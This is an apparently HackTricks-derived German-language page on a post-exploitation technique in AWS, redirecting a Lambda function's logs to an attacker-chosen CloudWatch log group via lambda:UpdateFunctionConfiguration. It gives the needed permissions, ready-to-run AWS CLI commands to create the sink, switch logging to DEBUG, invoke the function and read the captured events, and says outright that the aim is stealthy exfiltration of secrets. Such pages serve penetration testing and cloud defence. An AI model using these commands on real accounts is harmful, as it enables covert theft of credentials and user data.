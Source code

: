 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Missbrauche die erweiterten Logging-Steuerungen `lambda:UpdateFunctionConfiguration`, um die Logs einer Funktion in eine vom Angreifer gewählte CloudWatch Logs Loggruppe umzuleiten. Das funktioniert ohne Änderung des Codes oder der Ausführungsrolle (die meisten Lambda-Rollen beinhalten bereits `logs:CreateLogGroup/CreateLogStream/PutLogEvents` über `AWSLambdaBasicExecutionRole`). Wenn die Funktion Secrets/Request-Bodies ausgibt oder mit Stacktraces abstürzt, kannst du diese aus der neuen Loggruppe sammeln.

## Erforderliche Berechtigungen
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (oder verlasse dich auf vorhandene Trigger)
- logs:CreateLogGroup (oft nicht erforderlich, wenn die Funktionsrolle es hat)
- logs:FilterLogEvents (zum Lesen der Events)

## Schritte
1) Erstelle eine Ziel-Loggruppe
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Leite die Logs der Ziel-Funktion um
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Warten Sie, bis `LastUpdateStatus` den Wert `Successful` annimmt:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Sink aufrufen und daraus lesen
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Auswirkung
- Heimlich alle Anwendungs-/System-Logs in eine von dir kontrollierte Log-Gruppe umleiten und damit die Erwartung umgehen, dass Logs nur in `/aws/lambda/<fn>` landen.
- Sensible Daten exfiltrieren, die von der Funktion ausgegeben oder in Fehlermeldungen sichtbar werden.

## Bereinigung
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Hinweise
- Logging controls sind Teil von Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Standardmäßig sendet Lambda Logs an `/aws/lambda/<function>`, aber Sie können auf jeden LogGroup-Namen zeigen; Lambda (oder die execution role) erstellt diesen, wenn es erlaubt ist.

{{#include ../../../../banners/hacktricks-training.md}}
